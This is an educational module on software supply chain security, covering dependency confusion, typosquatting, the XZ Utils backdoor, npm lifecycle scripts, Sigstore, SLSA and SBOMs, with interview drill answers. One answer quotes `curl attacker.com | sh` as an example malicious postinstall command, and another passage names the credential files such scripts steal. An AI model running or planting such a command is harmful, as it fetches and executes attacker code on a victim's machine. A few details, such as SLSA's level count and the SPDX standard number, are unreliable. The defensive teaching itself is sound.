



# Module 12 — Software Supply Chain & Dependency Security (OWASP A03:2025)

Modern software engineering rarely builds systems from raw primitive instructions; an average cloud microservice bundles hundreds of third-party open-source packages, libraries, and transitive dependencies. An attacker no longer needs to penetrate an organization's hardened network perimeter if they can inject a backdoor into an upstream open-source package that the organization automatically downloads and deploys. The addition of **Category A03:2025 (Software Supply Chain Failures)** to the OWASP Top 10 recognizes this existential risk. This module analyzes supply chain threat vectors (typosquatting, dependency confusion, maintainer social engineering), historical backdoors (the XZ Utils incident CVE-2024-3094), lockfile integrity invariants, build-time script sandboxing, package provenance with Sigstore and SLSA, and automated Software Bill of Materials (SBOM) management.

---

## 1. Supply Chain Threat Vectors & Attack Topologies



### 1. Typosquatting
An attacker registers package names visually or phonetically similar to popular open-source packages (e.g. `cross-env` vs `crossenv`, `colors` vs `colour`). Developers typing quickly or following automated IDE import prompts inadvertently install the attacker's package, which executes malware during installation.

### 2. Dependency Confusion (Alex Birsan, 2021)
Many enterprises maintain private, proprietary packages (e.g. `@internal-corp/auth-lib`). Package managers (such as `npm`, `pip`, `gem`) often check multiple registries (the internal Artifactory registry and the public `npmjs.org` registry).
- **The Exploit**: An attacker discovers the name of an internal package (from leaked `.package.json` files or client JavaScript bundles). The attacker uploads a package with the **exact same name** to the public `npmjs.org` registry, setting the version number to an astronomically high value: `99.9.9`.
- When the enterprise CI/CD pipeline runs `npm install`, the package manager observes that version `99.9.9` on the public registry is "newer" than version `1.2.0` on the private registry, downloads the attacker's public package, and executes arbitrary code inside the corporate build environment.
- **Defenses**: Strict **npm Scopes** (`@corp-name`), reserving private package names on public registries, and configuring `replace-registry` rules in `.npmrc`.

### 3. Maintainer Takeovers & Social Engineering
Attackers target burnt-out maintainers of critical but unmaintained low-level utility libraries (such as `event-stream` or `left-pad`), offering to take over maintenance. Over months, they build trust, acquire commit access, and eventually slip sophisticated obfuscated malware into a minor release.

---

## 2. Case Study: The XZ Utils Backdoor (CVE-2024-3094)

The XZ Utils backdoor discovered in March 2024 remains the most sophisticated open-source software supply chain attack in computer history.



### Technical Anatomy of the XZ Backdoor
1. **Multi-Year Persona Engineering**: The threat actor ("Jia Tan") spent over two years contributing legitimate bug fixes and performance improvements to XZ Utils to build trust with the lone, overwhelmed maintainer.
2. **Git-Clean Obfuscation**: The malicious code was **never committed to the public Git repository**. Instead, malicious test files containing encrypted payload chunks were injected into the release tarballs generated for Linux distribution packagers.
3. **M4 Build-Time Hooking**: During `./configure`, complex M4 macros unpacked the payload, patched the build script, and injected an object file into `liblzma.so`.
4. **Symbol Interception via IFUNC**: In Linux, GNU Indirect Functions (IFUNC) allow runtime symbol resolution. The backdoor used IFUNC to intercept `RSA_public_decrypt` inside the OpenSSH server daemon (`sshd`) before the process completed initialization.
5. **Pre-Authentication Root Access**: The patched OpenSSH checked incoming cryptographic client certificates. If the certificate contained a signature encrypted with the attacker's private key, `sshd` executed the payload as root without prompting for credentials, bypassing all authentication and logging.

---

## 3. Build-Time Integrity: Lockfiles & Script Sandboxing

Package managers are not just package downloaders; they are code execution engines.

### The Danger of Lifecycle Scripts (`postinstall`)
npm packages can define lifecycle hooks in `package.json`:
```json
{
  "scripts": {
    "postinstall": "node setup.js"
  }
}
```
When a developer runs `npm install malicious-pkg`, npm **immediately executes `setup.js` with the full permissions of the current user**. The script can read SSH private keys (`~/.ssh/id_rsa`), exfiltrate AWS credentials (`~/.aws/credentials`), install keyloggers, or infect other local projects.

### Mandatory CI/CD Build Invariants
1. **Deterministic Installs (`npm ci`)**:
   - Never run `npm install` in production or CI/CD pipelines.
   - `npm ci` strictly requires an existing, unmodified `package-lock.json`. It deletes `node_modules` and installs exact commit-level integrity hashes. If `package.json` and `package-lock.json` are out of sync, `npm ci` aborts immediately with an error rather than silently upgrading dependencies.
2. **Disable Lifecycle Scripts (`--ignore-scripts`)**:
   - In automated builds and developer environments, execute:
     `npm ci --ignore-scripts`
   - This completely neutralizes malicious `postinstall` malware. Packages requiring native C++ compilation (e.g. `better-sqlite3`, `argon2`) can be compiled individually or deployed via pre-built binaries.

---

## 4. Package Provenance, Sigstore & SLSA Framework

How can an enterprise verify that the binary artifacts published to a public registry match the source code committed to the public GitHub repository without build-worker tampering?

### The SLSA Framework (Supply-chain Levels for Software Artifacts)
Standardized by OpenSSF, **SLSA** (pronounced "salsa") establishes a checklist of security standards across four progressive levels:
- **SLSA Level 1**: Scripted build process; produces a provenance metadata document.
- **SLSA Level 2**: Hosted build platform (e.g. GitHub Actions); provenance signed by the hosted platform.
- **SLSA Level 3**: Isolated, ephemeral build environments; provenance cryptographically unforgeable; non-falsifiable source-to-binary mapping.



### Sigstore & npm Trusted Publishing
Modern package managers eliminate long-lived, static npm automation tokens (which were frequently leaked in developer dotfiles):
1. **Trusted Publishing via OpenID Connect (OIDC)**: npm directly federates with GitHub Actions. The GitHub Actions runner requests a short-lived OIDC token asserting the repository, workflow, and commit hash.
2. **Cryptographic Provenance Signing**: Sigstore (**Fulcio**) issues a short-lived X.509 certificate to the runner. The runner signs an in-toto provenance attestation statement recording the build environment.
3. **Public Transparency**: The signature is recorded in Sigstore's append-only **Rekor** transparency log.
4. Anyone can run `npm audit signatures` to verify cryptographically that the published npm package was built by an authorized GitHub runner directly from the tagged source commit.

---

## 5. Software Bill of Materials (SBOM) & Automated SCA

A **Software Bill of Materials (SBOM)** is a machine-readable, nested inventory of all software components, libraries, licenses, and dependencies bundled into an application.

### Major SBOM Standards
- **CycloneDX (OWASP Foundation)**: Lightweight, modern JSON/XML format optimized for container security, vulnerability tracking, and automated CI/CD pipeline integration.
- **SPDX (Software Package Data Exchange, ISO/IEC 5230)**: Established standard focusing on open-source intellectual property, software licensing compliance, and deep component genealogy.

```json
{
  "bomFormat": "CycloneDX",
  "specVersion": "1.5",
  "metadata": {
    "component": {
      "name": "zero-to-one-auth-service",
      "version": "1.0.0",
      "type": "application"
    }
  },
  "components": [
    {
      "name": "jose",
      "version": "6.2.13",
      "purl": "pkg:npm/jose@6.2.13",
      "hashes": [
        { "alg": "SHA-512", "content": "9b12e..." }
      ]
    }
  ]
}
```

### Automated Tooling Taxonomy
- **SCA (Software Composition Analysis)**: Tools (Snyk, Dependabot, Renovate, Grype) that scan SBOMs and lockfiles against public vulnerability databases (CVE/NVD/GitHub Advisory Database) and automatically submit pull requests to bump vulnerable packages.
- **SAST (Static Application Security Testing)**: Scans source code repositories (ast-grep, Semgrep, SonarQube) for programming bugs, injection patterns, and unescaped variables.
- **DAST (Dynamic Application Security Testing)**: Probes running staging instances with synthetic attack payloads (OWASP ZAP) to identify runtime misconfigurations.

---

## 6. Then vs Now: Evolution of Supply Chain Security

| Supply Chain Dimension | Historical Paradigm (Then) | Modern Production Architecture (Now) |
| :--- | :--- | :--- |
| **Dependency Installs** | `npm install` without lockfile enforcement. | **`npm ci --ignore-scripts`** with cryptographic hash pinning. |
| **Package Publishing** | Long-lived static API tokens stored in local config files. | **OIDC Trusted Publishing (Sigstore)** with ephemeral identities. |
| **Build Verification** | Trusting that downloaded binaries match upstream Git. | **SLSA Level 3 Provenance** verified via Rekor transparency logs. |
| **Inventory Tracking** | Manual spreadsheets of known open-source tools. | **Automated Machine-Readable SBOMs** (CycloneDX / SPDX). |
| **Dependency Upgrades** | Manual review every 6–12 months. | **Continuous SCA Scanning (Renovate/Dependabot)** with automated PRs. |

---

## 7. Interview Drill: Supply Chain Defense

<details>
<summary>1. Explain how a Dependency Confusion attack works against an enterprise build pipeline, and what specific configuration changes eliminate it.</summary>

Dependency Confusion occurs because modern package managers query both an internal corporate repository and the public registry. 
If an enterprise uses a private package `@corp/auth-lib` at version `1.2.0`, an attacker uploads a package named `@corp/auth-lib` to the public `npmjs.org` registry with version `99.9.9`. 
When the corporate build executes `npm install`, the package manager considers the public `99.9.9` release newer than the internal `1.2.0`, fetches the attacker's public package, and executes its malicious `postinstall` script inside the corporate build network. 
*Elimination*:
1. **Scope Ownership**: Claim the `@corp` organization scope on public registries, preventing unauthorized actors from publishing under that scope.
2. **Explicit Registry Routing**: Configure `.npmrc` with strict scoped registry mappings:
   `@corp:registry=https://internal-artifactory.corp/`
   instructing the client to *never* query public registries for packages under the `@corp` scope.
3. **Registry Proxy Virtual Repositories**: Configure the internal repository manager to block external lookups for internal package names.
</details>

<details>
<summary>2. Why does running `npm install` in a CI/CD build pipeline represent a critical security vulnerability compared to `npm ci`?</summary>

`npm install` is non-deterministic:
1. If `package.json` contains loose version constraints (e.g. `^1.2.0`), `npm install` will resolve and download the latest available minor or patch version published to the registry, even if `package-lock.json` specifies an older version. If a dependency was compromised hours earlier with a malicious patch release, `npm install` automatically ingests the malware.
2. `npm install` modifies `package-lock.json` on the fly if dependencies have shifted.
`npm ci` (Clean Install) enforces strict cryptographic determinism: it completely deletes `node_modules`, strictly validates every package against the SHA-512 integrity hashes recorded in `package-lock.json`, and immediately aborts if `package.json` and `package-lock.json` do not match.
</details>

<details>
<summary>3. What was unique about the attack vector used in the XZ Utils (CVE-2024-3094) backdoor compared to standard typosquatting?</summary>

Standard typosquatting relies on hasty developer typos and obvious names. 
The XZ Utils attack was a state-sponsored, multi-year social engineering operation targeting a core upstream library. 
The threat actor invested over two years making high-quality, legitimate open-source contributions to gain commit access and maintainer trust. 
The malicious code was never committed to the public Git repository; it was injected exclusively into the release tarballs generated for Linux distribution packagers as obfuscated binary test data. 
The build-time M4 macros modified the compiled `liblzma.so` library to hook GNU IFUNC symbol resolution in OpenSSH daemon memory, creating an unauthenticated root backdoor.
</details>

<details>
<summary>4. Why should production Docker container builds and CI/CD runners always specify `--ignore-scripts`?</summary>

When a package is installed, npm executes any lifecycle hooks defined in `package.json` (`preinstall`, `install`, `postinstall`). 
Malicious packages use these scripts to execute shell commands (`curl attacker.com | sh`), stealing environment variables, cloud credentials, and SSH keys. 
Adding `--ignore-scripts` disables all automatic lifecycle script execution during `npm install` or `npm ci`. The build engine unpacks files safely without executing arbitrary third-party code.
</details>

<details>
<summary>5. How does Sigstore Trusted Publishing eliminate the risk of compromised developer credentials in package registries?</summary>

Historically, developers stored long-lived, high-privilege personal access tokens or passwords in local configuration files (`~/.npmrc`) to publish packages. If a developer's laptop was compromised or an API key leaked, attackers published malicious releases directly. 
With Sigstore Trusted Publishing, developer credentials are completely eliminated. The package registry establishes an OpenID Connect (OIDC) trust relationship with the GitHub Actions workflow. 
When a release is triggered, GitHub Actions generates an ephemeral OIDC token proving that the build is running on an authorized runner from a tagged commit. Sigstore issues a short-lived cryptographic certificate, signs the provenance attestation, and npm publishes the package without any human ever touching or storing a static password.
</details>
